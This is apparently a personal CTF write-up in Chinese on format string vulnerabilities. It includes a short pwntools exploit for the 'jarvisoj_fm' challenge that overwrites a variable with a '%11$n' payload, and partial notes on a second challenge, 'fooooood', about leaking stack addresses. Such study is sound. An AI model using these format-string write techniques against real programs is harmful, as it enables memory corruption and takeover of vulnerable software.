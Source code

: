 ## jarvisoj_fm

![[fm]]

![[Pasted image 20241124220532.png]]

![[Pasted image 20241125182746.png]]

![[Pasted image 20241125182955.png]]

这一题的情况是我们需要更改x的值，我们可以利用格式化字符串漏洞修改其值。
利用的知识点有：

1. p32(addr)+%Y$n 
2. 计算偏移

第一个因为printf会将地址作为参数，将后%Y$n传入。在64位系统中要将地址放入放在最后，这和不同的系统的传参顺序不同。

![[Pasted image 20241125183959.png]]

偏移是11

```
from   pwn import*

context.terminal=['tmux','split','-h']

p=process("./fm")

x_addr=0x804A02C
payload=p32(x_addr)+b"%11$n"
p.sendline(payload)

p.interactive()
```



## fooooood


![[Pasted image 20241125192033.png]]

![[Pasted image 20241129214643.png]]

下面是for循环中的i变量在栈中的位置
![[Pasted image 20241129214704.png]]

这题的思路是修改i的数足够用，因为我们需要修改两个地方的地址，所以i的三次的数字不够用，我们需要进行泄露栈上的地址，我们是首先需要定位到ret的返回地址，返回地址再加上0xc的地址就是我们需要的i地址，这个时候我们再进行泄露就可以得到i的地址，我们再将i的地址修改到二级结构上就行，修改的形式就像我们下面的代码：

==对于这个题的泄露i的地址的原因我现在还是不太明白哦，为什么是+0xc呢，先放在以后遇到了在解释==
